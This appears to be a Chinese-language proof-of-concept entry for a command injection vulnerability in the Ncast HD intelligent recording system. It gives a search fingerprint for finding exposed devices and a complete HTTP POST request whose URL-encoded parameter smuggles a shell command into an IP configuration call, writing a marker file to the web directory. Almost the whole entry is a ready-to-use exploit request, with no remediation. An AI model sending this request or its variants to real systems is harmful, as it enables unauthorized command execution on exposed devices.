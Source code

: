 ﻿# Ncast 高清智能录播系统 命令执行漏洞

> 更新时间：2024-05-06

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：app="Ncast-产品" && title=="高清智能录播系统"

> 验证脚本：HTTP

```

POST /classes/common/busiFacade.php HTTP/1.1
Accept: */*
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=xxxxx
Connection: close

%7B%22name%22%3A%22setIpConfig%22%2C%22serviceName%22%3A%22SysManager%22%2C%22userTransaction%22%3Afalse%2C%22param%22%3A%5B%22%3Becho%20dudesuite%3E%3Edudesite.txt%22%2C%22255.255.252.0%22%2C%22192.168.7.1%22%2C%22202.96.128.86%22%2C%22192.168.89.89%22%2C%22255.255.252.0%22%5D%7D
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/classes/common/dudesite.txt

> 验证文件来源：Ncast 高清智能录播系统 命令执行漏洞.poc

